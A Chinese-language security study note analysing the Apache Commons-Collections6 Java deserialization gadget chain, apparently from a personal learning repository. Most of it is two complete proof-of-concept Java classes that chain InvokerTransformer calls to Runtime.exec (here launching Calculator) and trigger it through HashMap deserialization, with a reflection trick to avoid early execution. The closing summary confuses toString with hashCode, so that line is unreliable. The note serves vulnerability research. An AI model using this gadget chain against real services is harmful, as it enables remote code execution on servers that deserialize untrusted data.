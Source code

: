 # Java安全学习-Commons-Collections6链

Author: H3rmesk1t

# 环境搭建
> 1. `JDK`版本：JDK1.8u66(暂无限制)
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## HashSet
> `HashSet`是一个无序的、不允许有重复元素的集合，本质上就是由`HashMap`实现的，跟`HashMap`一样，都是一个存放链表的数组，`HashSet`中的元素都存放在`HashMap`的`key`上面，而`value`中的值都是统一的一个`private static final Object PRESENT = new Object();`，在`HashSet`的`readObject`方法中会调用其内部`HashMap`的`put`方法，将值放在`key`上

<img src="./images/17.png" alt="">

# CommonsCollections6 分析
> 在`CommonsCollections5`中，通过对`TiedMapEntry#toString`方法的调用，触发了`TiedMapEntry#getValue`，继而触发了`LazyMap#get`来完成后半段的调用；而在`CommonsCollections6`中则是通过`TiedMapEntry#hashCode`触发对`TiedMapEntry#getValue`的调用，但是需要找到一个触发`hashcode()`方法的点，因此利用前置知识中的`HashSet()`方法来触发`hashCode()`方法

> 在`HashSet#readObject`方法中，跟进`put()`方法，进入`java.util.HashMap`中调用`put()`方法，接着调用`hash()`方法，进而调用`key.hashCode()`，这里只需要让`key`为`TiedMapEntry`对象即可

<img src="./images/18.png" alt="">

<img src="./images/19.png" alt="">

> 但是在实际利用是需要解决一个问题，那就是在调用`put`方法的时候就触发命令执行的问题，P牛对此的解决方法是`outerMap.remove("h3rmesk1t");`，成功在反序列化的时候也触发了命令执行

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:38 下午
 */
public class FakeDemo {

    public static void fakeDemo() throws IOException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            fakeDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/20.png" alt="">

<img src="./images/21.png" alt="">

## POC
> 为了解决上述出现的问题，在构造`LazyMap`的时候先构造一个`fakeTransformers`对象，等最后⽣成`Payload`的时候，再利用反射将真正的`transformers`替换进去

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:29 下午
 */
public class CommonsCollections6Gadget1 {

    public static void CC6() throws IllegalAccessException, NoSuchFieldException {
        Transformer[] fakeTransformers = new Transformer[] {};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "d1no");
        map.remove("h3rmesk1t");
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);
        //map.clear();

        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC6();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/22.png" alt="">

# 调用链

```java
HashSet.readObject()/HashMap.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                LazyMap.get()
                    ChainedTransformer.transform()
                        InvokerTransformer.transform()
```

# 总结
> 反序列化调用`TiedMapEntry`的`toString`方法，间接调用`LazyMap`的`hashCode`方法，触发了后续的`Transformer`恶意执行链
